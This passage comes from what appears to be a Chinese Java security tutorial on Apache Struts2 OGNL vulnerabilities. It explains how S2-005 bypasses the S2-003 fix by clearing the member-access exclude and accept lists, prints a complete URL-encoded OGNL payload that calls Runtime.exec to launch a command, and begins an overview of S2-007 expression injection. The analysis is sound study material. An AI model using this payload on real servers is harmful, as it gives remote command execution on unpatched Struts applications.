 我们先使用 S2-003 的 payload 再打一次，看一下调用流程：

首先在`ParametersInterceptor#setParameters` 方法创建新的 ValueStack，里面 securityMemberAccess 的 allowStaticMethodAccess 默认为 true，excludeProperties 里有一个数据，是在配置文件中读出来的参数名的黑名单，acceptProperties 中没有数据。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296396.png)

在 payload 的第一步设置 denyMethodExecution 为 false 没有问题，第二步调用方法前执行 `isAccessible()` 判断，由于 allowStaticMethodAccess 为 true ，所以 `!getAllowStaticMethodAccess()` 返回false，程序调用父类 DefaultMemberAccess 的 `isAccessible()` 方法判断调用的类是不是 public 属性，由于我们调用的 `Runtime.getRuntime()` 没有问题，所以这步判断也直接过了，接下来程序会调用到 `isAcceptableProperty()` ，会进行两个判断：`isAccepted()` 和 `isExcluded()` ：
- `isAccepted()`：判断参数名是否在白名单中，如果白名单为空，则返回 true；如果白名单不为空，则进行匹配，匹配到了就返回 true，匹配不到就返回 false；
- `isExcluded()` ：判断参数是否在黑名单中，如果匹配到了，则返回 true，如果没匹配到或黑名单为空，则返回 false。

在这种判断下，只有当 `isAccepted()` 返回 true，`isExcluded()` 返回 false 的情况下，才能调用方法，最好的方式是黑白名单都为空，这样直接绕过判断。

由于 `MethodAccessor#callMethod/callStaticMethod` 时传入的 propertyName 为 null，所以进行判断的参数  paramName 为 null，会触发空指针异常，中断调用流程。

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296398.png)

所以我们需要将 excludeProperties 设置为空集，绕开判断，其他不变，与 S2-003 保持一致。最好的 payload 是再将 acceptProperties 设为空集，allowStaticMethodAccess 设置为 true，用来兼容多种情况。因此，最终的 payload 为：
```
(%27\u0023_memberAccess.allowStaticMethodAccess\u003dtrue%27)(su18)(su19)&(%27\u0023_memberAccess.acceptProperties\u003d@java.util.Collections@EMPTY_SET%27)(su20)(su21)&(%27\u0023context[\%27xwork.MethodAccessor.denyMethodExecution\%27]\u003dfalse%27)(su22)(su23)&(%27\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET%27)(su24)(su25)&(%27\u0023su26\u003d@java.lang.Runtime@getRuntime().exec(\%27open\u0020/System/Applications/Calculator.app\%27)%27)(su27)(su28)
```
当然了，这是执行命令的 payload，如果只是想读取/修改 context 中的内容的话就不需要这么麻烦了。

## S2-007

用字符串拼接还不进行处理，yyds。

> 影响版本：Struts 2.0.0 - Struts 2.2.3
> 参考链接：https://cwiki.apache.org/confluence/display/WW/S2-007
> 描述：关于表单我们可以设置每个字段的规则验证，如果类型转换错误时，在类型转换错误下，拦截器会将用户输入取出插入到当前值栈中，之后会对标签进行二次表达式解析，造成表达式注入。

可以为 field 配置验证规则，这里使用了 S2-007 的靶场进行调试，如下可看到为 age 配置了类型和大小限制：
```xml
<validators>
    <field name="age">
        <field-validator type="int">
            <param name="min">1</param>
            <param name="max">150</param>
        </field-validator>
    </field>
</validators>
```
此时如果输入不正确的数据类型，会校验失败并提示：

![img](https://javasec.oss-cn-hongkong.aliyuncs.com/images/1625284296400.png)
